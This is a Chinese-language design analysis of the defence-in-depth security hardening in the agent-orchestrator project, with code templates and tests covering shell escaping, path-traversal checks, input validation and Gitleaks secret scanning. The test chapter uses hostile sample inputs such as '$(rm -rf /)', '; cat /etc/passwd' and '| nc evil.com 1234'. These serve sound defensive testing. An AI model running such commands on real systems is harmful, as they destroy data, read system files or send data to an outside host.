



# PD-218.01 agent-orchestrator — 全面安全加固体系

> 文档编号：PD-218.01
> 来源：agent-orchestrator `packages/core/src/utils.ts`, `packages/plugins/workspace-worktree/src/index.ts`, `packages/web/server/tmux-utils.ts`
> GitHub：https://github.com/ComposioHQ/agent-orchestrator.git
> 问题域：PD-218 安全加固 Security Hardening
> 状态：可复用方案

---

## 第 1 章 问题与动机

### 1.1 核心问题

Agent 编排系统天然面临多层安全威胁：它需要执行外部命令（git、tmux、osascript）、管理文件系统路径（worktree、symlink）、接收用户输入（session ID、URL）、处理敏感凭证（API key、token）。任何一层的疏忽都可能导致 shell 注入、路径遍历、SSRF 或密钥泄露。

agent-orchestrator 作为一个管理多个 AI Agent 会话的编排器，攻击面尤其大：
- **命令执行层**：每个 Agent 插件（Claude Code、Aider、Codex、OpenCode）都需要构建 shell 命令
- **文件系统层**：worktree 插件动态创建目录、symlink，session 元数据写入磁盘
- **网络层**：WebSocket 终端服务器接受浏览器连接，webhook 通知器发送 HTTP 请求
- **凭证层**：YAML 配置文件包含 API key、token、webhook URL

### 1.2 agent-orchestrator 的解法概述

该项目采用**纵深防御**策略，在每一层都部署独立的安全机制：

1. **execFile 替代 exec**：全项目统一使用 `child_process.execFile` + 数组参数，从根本上消除 shell 注入（`packages/core/src/tmux.ts:7`、`packages/cli/src/lib/shell.ts:1`）
2. **白名单正则校验**：`SAFE_PATH_SEGMENT`（`/^[a-zA-Z0-9_-]+$/`）和 `SESSION_ID_PATTERN` 在路径拼接前拦截恶意输入（`packages/plugins/workspace-worktree/src/index.ts:33`、`packages/web/server/tmux-utils.ts:11`）
3. **POSIX 单引号转义**：`shellEscape()` 用 `'\''` 替换嵌入的单引号，安全处理必须拼接到 shell 命令的参数（`packages/core/src/utils.ts:13`）
4. **路径遍历双重检查**：先拒绝 `..` 和绝对路径，再用 `resolve()` + `startsWith()` 验证最终路径在 workspace 内（`packages/plugins/workspace-worktree/src/index.ts:256-269`）
5. **Gitleaks 三层扫描**：pre-commit hook + CI pipeline + 每周定时扫描，形成密钥泄露的完整防线（`.husky/pre-commit`、`.github/workflows/security.yml`）
6. **URL 协议白名单**：`validateUrl()` 只允许 `http://` 和 `https://` 前缀，阻止 `file://`、`javascript:` 等危险协议（`packages/core/src/utils.ts:29`）

### 1.3 设计思想

| 设计原则 | 具体实现 | 理由 | 替代方案 |
|----------|----------|------|----------|
| 消除而非转义 | execFile + 数组参数 | 从架构上消除 shell 解析，比转义更可靠 | exec + 手动转义（易遗漏） |
| 白名单优于黑名单 | SAFE_PATH_SEGMENT 只允许 `[a-zA-Z0-9_-]` | 黑名单无法穷举所有攻击向量 | 黑名单过滤 `../`（可被编码绕过） |
| 纵深防御 | 路径遍历：先拒绝 `..` → 再 resolve 验证 | 单层防御可能被绕过 | 只做一层检查 |
| 左移安全 | pre-commit hook 阻止密钥提交 | 越早发现成本越低 | 只在 CI 扫描（已入历史） |
| 优雅降级 | gitleaks 未安装时阻止提交而非静默跳过 | 安全机制不能被绕过 | 警告但允许提交 |

---

## 第 2 章 源码实现分析

### 2.1 架构概览

agent-orchestrator 的安全加固分布在 4 个层次，每层有独立的防护机制：

```
┌─────────────────────────────────────────────────────────────┐
│                    凭证防护层 (Credential)                     │
│  .gitleaks.toml + .husky/pre-commit + security.yml          │
│  ─ Gitleaks 三层扫描：pre-commit / CI / 定时                  │
├─────────────────────────────────────────────────────────────┤
│                    网络输入层 (Network)                        │
│  validateUrl() + validateSessionId() + WebSocket 校验        │
│  ─ URL 协议白名单 / Session ID 正则 / WS 连接拒绝             │
├─────────────────────────────────────────────────────────────┤
│                    文件系统层 (Filesystem)                     │
│  SAFE_PATH_SEGMENT + resolve+startsWith + symlink 检查       │
│  ─ 路径段白名单 / 遍历双重验证 / 绝对路径拒绝                   │
├─────────────────────────────────────────────────────────────┤
│                    命令执行层 (Execution)                      │
│  execFile + shellEscape + escapeAppleScript                  │
│  ─ 数组参数消除注入 / POSIX 转义 / AppleScript 转义            │
└─────────────────────────────────────────────────────────────┘
```

### 2.2 核心实现

#### 2.2.1 命令执行安全：execFile 统一封装



对应源码 `packages/cli/src/lib/shell.ts:1-22`：

```typescript
import { execFile as execFileCb } from "node:child_process";
import { promisify } from "node:util";

const execFileAsync = promisify(execFileCb);

export async function exec(
  cmd: string,
  args: string[],
  options?: { cwd?: string; env?: Record<string, string> },
): Promise<ExecResult> {
  const { stdout, stderr } = await execFileAsync(cmd, args, {
    cwd: options?.cwd,
    env: options?.env ? { ...process.env, ...options.env } : undefined,
    maxBuffer: 10 * 1024 * 1024,
  });
  return { stdout: stdout.trimEnd(), stderr: stderr.trimEnd() };
}
```

关键点：`exec()` 函数签名强制 `cmd` 和 `args` 分离，调用者无法传入拼接字符串。`execFile` 直接调用 `execve` 系统调用，参数作为 `argv[]` 数组传递，不经过 `/bin/sh` 解析。

同样的模式在 `packages/core/src/tmux.ts:7-21` 中：

```typescript
import { execFile } from "node:child_process";

function tmux(...args: string[]): Promise<string> {
  return new Promise((resolve, reject) => {
    execFile("tmux", args, { timeout: 10_000 }, (error, stdout, stderr) => {
      if (error) {
        reject(new Error(`tmux ${args[0]} failed: ${stderr || error.message}`));
        return;
      }
      resolve(stdout);
    });
  });
}
```

#### 2.2.2 POSIX 单引号转义与 AppleScript 转义



对应源码 `packages/core/src/utils.ts:8-23`：

```typescript
/**
 * POSIX-safe shell escaping: wraps value in single quotes,
 * escaping any embedded single quotes as '\'' .
 */
export function shellEscape(arg: string): string {
  return "'" + arg.replace(/'/g, "'\\''") + "'";
}

/**
 * Escape a string for safe interpolation inside AppleScript double-quoted strings.
 */
export function escapeAppleScript(s: string): string {
  return s.replace(/\\/g, "\\\\").replace(/"/g, '\\"');
}
```

在 iTerm2 插件中，当需要在 AppleScript 内嵌入 shell 命令时，使用链式转义（`packages/plugins/terminal-iterm2/src/index.ts:99-116`）：

```typescript
async function openNewTab(sessionName: string): Promise<void> {
  const safe = escapeAppleScript(sessionName);
  const shellSafe = shellEscape(sessionName);
  const shellInAppleScript = escapeAppleScript(shellSafe);
  const script = `
tell application "iTerm2"
    ...
    tell current session of current window
        set name to "${safe}"
        write text "... tmux attach -t '${shellInAppleScript}'"
    end tell
end tell`;
  await runAppleScript(script);
}
```

#### 2.2.3 路径遍历双重防护



对应源码 `packages/plugins/workspace-worktree/src/index.ts:33-39` 和 `253-269`：

```typescript
/** Only allow safe characters in path segments to prevent directory traversal */
const SAFE_PATH_SEGMENT = /^[a-zA-Z0-9_-]+$/;

function assertSafePathSegment(value: string, label: string): void {
  if (!SAFE_PATH_SEGMENT.test(value)) {
    throw new Error(`Invalid ${label} "${value}": must match ${SAFE_PATH_SEGMENT}`);
  }
}

// --- symlink 路径遍历防护 ---
// Guard against absolute paths and directory traversal
if (symlinkPath.startsWith("/") || symlinkPath.includes("..")) {
  throw new Error(
    `Invalid symlink path "${symlinkPath}": must be a relative path without ".." segments`,
  );
}

const targetPath = resolve(info.path, symlinkPath);

// Verify resolved target is still within the workspace
if (!targetPath.startsWith(info.path + "/") && targetPath !== info.path) {
  throw new Error(
    `Symlink target "${symlinkPath}" resolves outside workspace: ${targetPath}`,
  );
}
```

### 2.3 实现细节

#### WebSocket Session ID 校验

WebSocket 终端服务器在接受连接前验证 session ID 格式（`packages/web/server/direct-terminal-ws.ts:59-83`）：

```typescript
wss.on("connection", (ws, req) => {
  const url = new URL(req.url ?? "/", "ws://localhost");
  const sessionId = url.searchParams.get("session");

  if (!sessionId) {
    ws.close(1008, "Missing session parameter");
    return;
  }

  if (!validateSessionId(sessionId)) {
    ws.close(1008, "Invalid session ID");
    return;
  }

  const tmuxSessionId = resolveTmuxSession(sessionId, TMUX);
  if (!tmuxSessionId) {
    ws.close(1008, "Session not found");
    return;
  }
  // ... proceed with pty spawn
});
```

`validateSessionId` 定义在 `packages/web/server/tmux-utils.ts:11-22`，使用与 `SAFE_PATH_SEGMENT` 相同的白名单策略：

```typescript
export const SESSION_ID_PATTERN = /^[a-zA-Z0-9_-]+$/;

export function validateSessionId(sessionId: string): boolean {
  return SESSION_ID_PATTERN.test(sessionId);
}
```

#### Gitleaks 三层防线

密钥扫描形成三道防线：

1. **Pre-commit hook**（`.husky/pre-commit:22-23`）：`gitleaks protect --staged --verbose`，扫描暂存文件
2. **CI Pipeline**（`.github/workflows/security.yml:18-31`）：`gitleaks/gitleaks-action@v2`，扫描完整 git 历史
3. **定时扫描**（`.github/workflows/security.yml:9-10`）：`cron: "0 8 * * 1"`，每周一扫描新漏洞模式

配置文件 `.gitleaks.toml` 继承所有默认规则（覆盖 100+ 密钥模式），并设置 allowlist 排除误报：

```toml
[extend]
useDefault = true

[allowlist]
paths = ["node_modules/", "dist/", ".next/", "coverage/", "pnpm-lock.yaml"]
regexes = ["\\$\\{[A-Z_]+\\}", "your-api-key-here", "your-token-here"]
```

#### 元数据层 Session ID 校验

`packages/core/src/metadata.ts:66-73` 在元数据读写前也做白名单校验，防止通过 session ID 实现路径遍历：

```typescript
const VALID_SESSION_ID = /^[a-zA-Z0-9_-]+$/;

function validateSessionId(sessionId: SessionId): void {
  if (!VALID_SESSION_ID.test(sessionId)) {
    throw new Error(`Invalid session ID: ${sessionId}`);
  }
}
```

---

## 第 3 章 迁移指南

### 3.1 迁移清单

**阶段 1：命令执行安全（优先级最高）**

- [ ] 全局搜索 `child_process.exec(`，替换为 `execFile` + 数组参数
- [ ] 封装统一的 `exec(cmd, args)` 函数，强制签名分离
- [ ] 对必须拼接到 shell 的参数，使用 POSIX 单引号转义

**阶段 2：输入校验**

- [ ] 为所有用户可控的路径段添加白名单正则校验
- [ ] 为 URL 输入添加协议白名单（`http://` / `https://`）
- [ ] 为 WebSocket / API 的 session ID 参数添加格式校验

**阶段 3：路径遍历防护**

- [ ] symlink 创建前检查：拒绝绝对路径和 `..` 段
- [ ] `resolve()` + `startsWith()` 双重验证最终路径在预期目录内
- [ ] 文件元数据操作前校验 session ID

**阶段 4：密钥泄露防护**

- [ ] 安装 Gitleaks 并配置 `.gitleaks.toml`
- [ ] 添加 Husky pre-commit hook
- [ ] 配置 CI 密钥扫描 workflow
- [ ] 将敏感配置文件加入 `.gitignore`

### 3.2 适配代码模板

#### 安全命令执行封装（TypeScript）

```typescript
import { execFile as execFileCb } from "node:child_process";
import { promisify } from "node:util";

const execFileAsync = promisify(execFileCb);

interface ExecResult {
  stdout: string;
  stderr: string;
}

/**
 * 安全执行外部命令 — 使用 execFile 避免 shell 注入。
 * cmd 和 args 强制分离，参数作为 argv[] 传递。
 */
export async function safeExec(
  cmd: string,
  args: string[],
  options?: { cwd?: string; timeout?: number },
): Promise<ExecResult> {
  const { stdout, stderr } = await execFileAsync(cmd, args, {
    cwd: options?.cwd,
    timeout: options?.timeout ?? 30_000,
    maxBuffer: 10 * 1024 * 1024,
  });
  return { stdout: stdout.trimEnd(), stderr: stderr.trimEnd() };
}

/**
 * POSIX 单引号转义 — 用于必须拼接到 shell 命令的场景。
 * 将 ' 替换为 '\'' （结束引号 + 转义引号 + 开始引号）。
 */
export function shellEscape(arg: string): string {
  return "'" + arg.replace(/'/g, "'\\''") + "'";
}
```

#### 路径安全校验（TypeScript）

```typescript
import { resolve, join } from "node:path";

const SAFE_SEGMENT = /^[a-zA-Z0-9_-]+$/;

/**
 * 校验路径段是否安全（白名单策略）。
 * 用于 projectId、sessionId 等拼接到文件路径的用户输入。
 */
export function assertSafeSegment(value: string, label: string): void {
  if (!SAFE_SEGMENT.test(value)) {
    throw new Error(`Invalid ${label}: "${value}" — only [a-zA-Z0-9_-] allowed`);
  }
}

/**
 * 验证 symlink 目标路径在 workspace 内（双重检查）。
 */
export function assertPathWithinWorkspace(
  relativePath: string,
  workspacePath: string,
): string {
  // 第一层：拒绝绝对路径和 .. 段
  if (relativePath.startsWith("/") || relativePath.includes("..")) {
    throw new Error(`Path "${relativePath}" must be relative without ".." segments`);
  }

  // 第二层：resolve 后验证前缀
  const resolved = resolve(workspacePath, relativePath);
  if (!resolved.startsWith(workspacePath + "/") && resolved !== workspacePath) {
    throw new Error(`Path "${relativePath}" resolves outside workspace: ${resolved}`);
  }

  return resolved;
}
```

#### Gitleaks 配置模板

```toml
# .gitleaks.toml
title = "Project Secret Scanning"

[extend]
useDefault = true

[allowlist]
description = "False positive exclusions"
paths = ["node_modules/", "dist/", "coverage/", "*.lock"]
regexes = ["\\$\\{[A-Z_]+\\}", "your-.*-here", "example\\.com"]
```

```bash
#!/bin/sh
# .husky/pre-commit
if ! command -v gitleaks > /dev/null 2>&1; then
  echo "gitleaks not installed — commit blocked"
  exit 1
fi
gitleaks protect --staged --verbose
```

### 3.3 适用场景

| 场景 | 适用度 | 说明 |
|------|--------|------|
| Agent 编排系统 | ⭐⭐⭐ | 多插件执行外部命令，攻击面大 |
| CLI 工具 | ⭐⭐⭐ | 频繁调用 shell 命令，需要 execFile |
| Web 终端服务 | ⭐⭐⭐ | WebSocket 接受用户输入，需要严格校验 |
| 文件管理系统 | ⭐⭐⭐ | 路径操作多，需要遍历防护 |
| 纯前端应用 | ⭐ | 无命令执行和文件操作，仅需密钥扫描 |
| 内部工具（可信输入） | ⭐⭐ | 仍建议 execFile，但路径校验可简化 |

---

## 第 4 章 测试用例

```typescript
import { describe, it, expect } from "vitest";

// ---- shellEscape 测试 ----
describe("shellEscape", () => {
  function shellEscape(arg: string): string {
    return "'" + arg.replace(/'/g, "'\\''") + "'";
  }

  it("普通字符串直接包裹单引号", () => {
    expect(shellEscape("hello")).toBe("'hello'");
  });

  it("包含单引号时正确转义", () => {
    expect(shellEscape("it's")).toBe("'it'\\''s'");
  });

  it("包含双引号和空格时安全", () => {
    expect(shellEscape('say "hi" now')).toBe("'say \"hi\" now'");
  });

  it("空字符串返回空单引号对", () => {
    expect(shellEscape("")).toBe("''");
  });

  it("包含 shell 元字符时安全", () => {
    expect(shellEscape("$(rm -rf /)")).toBe("'$(rm -rf /)'");
    expect(shellEscape("; cat /etc/passwd")).toBe("'; cat /etc/passwd'");
    expect(shellEscape("| nc evil.com 1234")).toBe("'| nc evil.com 1234'");
  });
});

// ---- 路径安全校验测试 ----
describe("assertSafeSegment", () => {
  const SAFE_SEGMENT = /^[a-zA-Z0-9_-]+$/;

  function assertSafe(value: string): boolean {
    return SAFE_SEGMENT.test(value);
  }

  it("允许合法的 session ID", () => {
    expect(assertSafe("ao-15")).toBe(true);
    expect(assertSafe("my_project")).toBe(true);
    expect(assertSafe("ABC123")).toBe(true);
  });

  it("拒绝路径遍历尝试", () => {
    expect(assertSafe("../escape")).toBe(false);
    expect(assertSafe("../../etc/passwd")).toBe(false);
    expect(assertSafe("foo/bar")).toBe(false);
  });

  it("拒绝特殊字符", () => {
    expect(assertSafe("hello world")).toBe(false);
    expect(assertSafe("a;b")).toBe(false);
    expect(assertSafe("$(cmd)")).toBe(false);
  });
});

// ---- validateUrl 测试 ----
describe("validateUrl", () => {
  function validateUrl(url: string): boolean {
    return url.startsWith("https://") || url.startsWith("http://");
  }

  it("允许 HTTPS URL", () => {
    expect(validateUrl("https://hooks.slack.com/services/T123")).toBe(true);
  });

  it("允许 HTTP URL", () => {
    expect(validateUrl("http://localhost:3000/webhook")).toBe(true);
  });

  it("拒绝 file:// 协议", () => {
    expect(validateUrl("file:///etc/passwd")).toBe(false);
  });

  it("拒绝 javascript: 协议", () => {
    expect(validateUrl("javascript:alert(1)")).toBe(false);
  });

  it("拒绝无协议字符串", () => {
    expect(validateUrl("not-a-url")).toBe(false);
  });
});

// ---- escapeAppleScript 测试 ----
describe("escapeAppleScript", () => {
  function escapeAppleScript(s: string): string {
    return s.replace(/\\/g, "\\\\").replace(/"/g, '\\"');
  }

  it("转义双引号", () => {
    expect(escapeAppleScript('hello "world"')).toBe('hello \\"world\\"');
  });

  it("转义反斜杠", () => {
    expect(escapeAppleScript("path\\to\\file")).toBe("path\\\\to\\\\file");
  });

  it("同时转义反斜杠和双引号", () => {
    expect(escapeAppleScript('a\\b"c')).toBe('a\\\\b\\"c');
  });
});
```

---

## 第 5 章 跨域关联

| 关联域 | 关系类型 | 说明 |
|--------|----------|------|
| PD-04 工具系统 | 依赖 | 每个 Agent 插件（Claude Code、Aider、Codex）构建命令时依赖 shellEscape，工具系统的安全性直接取决于命令执行层 |
| PD-05 沙箱隔离 | 协同 | worktree 的路径遍历防护是沙箱隔离的一部分，SAFE_PATH_SEGMENT 确保 workspace 边界不被突破 |
| PD-10 中间件管道 | 协同 | validateUrl 和 validateSessionId 可作为中间件管道的校验节点，在请求进入业务逻辑前拦截 |
| PD-11 可观测性 | 协同 | 安全事件（密钥检测、路径遍历拒绝）应接入可观测性系统，当前项目通过 console.error 记录 |
| PD-09 Human-in-the-Loop | 协同 | pre-commit hook 是一种 human-in-the-loop 机制：开发者在提交前被告知密钥泄露风险 |

---

## 第 6 章 来源文件索引

| 文件 | 行范围 | 关键实现 |
|------|--------|----------|
| `packages/core/src/utils.ts` | L8-33 | shellEscape、escapeAppleScript、validateUrl 三个核心安全函数 |
| `packages/cli/src/lib/shell.ts` | L1-22 | execFile 统一封装，exec/execSilent/tmux/git/gh 安全命令执行 |
| `packages/core/src/tmux.ts` | L7-21 | tmux 命令 execFile 封装，10s 超时保护 |
| `packages/plugins/workspace-worktree/src/index.ts` | L33-39 | SAFE_PATH_SEGMENT 白名单正则 + assertSafePathSegment |
| `packages/plugins/workspace-worktree/src/index.ts` | L253-269 | symlink 路径遍历双重防护（拒绝 `..` + resolve 验证） |
| `packages/web/server/tmux-utils.ts` | L11-22 | SESSION_ID_PATTERN + validateSessionId |
| `packages/web/server/direct-terminal-ws.ts` | L59-83 | WebSocket 连接 session ID 校验 + tmux session 解析 |
| `packages/core/src/metadata.ts` | L66-73 | 元数据层 VALID_SESSION_ID 校验 |
| `packages/plugins/notifier-desktop/src/index.ts` | L64-68 | escapeAppleScript 在 osascript 通知中的应用 |
| `packages/plugins/terminal-iterm2/src/index.ts` | L36-38, L99-116 | shellEscape + escapeAppleScript 链式转义 |
| `packages/plugins/agent-claude-code/src/index.ts` | L596-609 | shellEscape 在 Agent 命令构建中的应用 |
| `.gitleaks.toml` | L1-31 | Gitleaks 配置：默认规则 + allowlist |
| `.husky/pre-commit` | L1-41 | pre-commit hook：gitleaks protect --staged |
| `.github/workflows/security.yml` | L1-71 | CI 三层安全扫描：Gitleaks + Dependency Review + npm audit |
| `SECURITY.md` | L1-229 | 安全策略文档：报告流程 + 审计历史 + 开发者指南 |

---

## 第 7 章 横向对比维度

```json comparison_data
{
  "project": "agent-orchestrator",
  "dimensions": {
    "注入防护": "execFile+数组参数全局统一，shellEscape POSIX单引号转义，escapeAppleScript双重嵌套转义",
    "路径防护": "SAFE_PATH_SEGMENT白名单正则+resolve+startsWith双重验证，拒绝绝对路径和..段",
    "密钥扫描": "Gitleaks三层防线：pre-commit hook+CI pipeline+每周定时扫描，未安装则阻止提交",
    "输入校验": "SESSION_ID_PATTERN白名单正则统一校验，validateUrl协议白名单，WebSocket连接前三重验证",
    "安全文档": "完整SECURITY.md含审计历史+开发者指南+用户指南，.gitleaks.toml allowlist管理误报"
  }
}
```

### 域元数据补充

```json domain_metadata
{
  "solution_summary": "agent-orchestrator 用 execFile+数组参数消除 shell 注入、SAFE_PATH_SEGMENT 白名单+resolve 双重验证防路径遍历、Gitleaks 三层扫描防密钥泄露、escapeAppleScript 链式转义防 AppleScript 注入",
  "description": "Agent 编排系统的多层纵深防御：命令执行、文件系统、网络输入、凭证管理四层独立防护",
  "sub_problems": [
    "AppleScript 注入防护（osascript 字符串嵌套转义）",
    "WebSocket 连接安全（session ID 格式校验+tmux session 存在性验证）",
    "CI/CD 安全流水线（依赖审查+npm audit+密钥扫描联动）"
  ],
  "best_practices": [
    "shell-in-AppleScript 场景用 shellEscape→escapeAppleScript 链式转义",
    "Gitleaks 未安装时阻止提交而非静默跳过（安全机制不可绕过）",
    "WebSocket 连接前做三重验证：参数存在性→格式校验→tmux session 存在性"
  ]
}
```
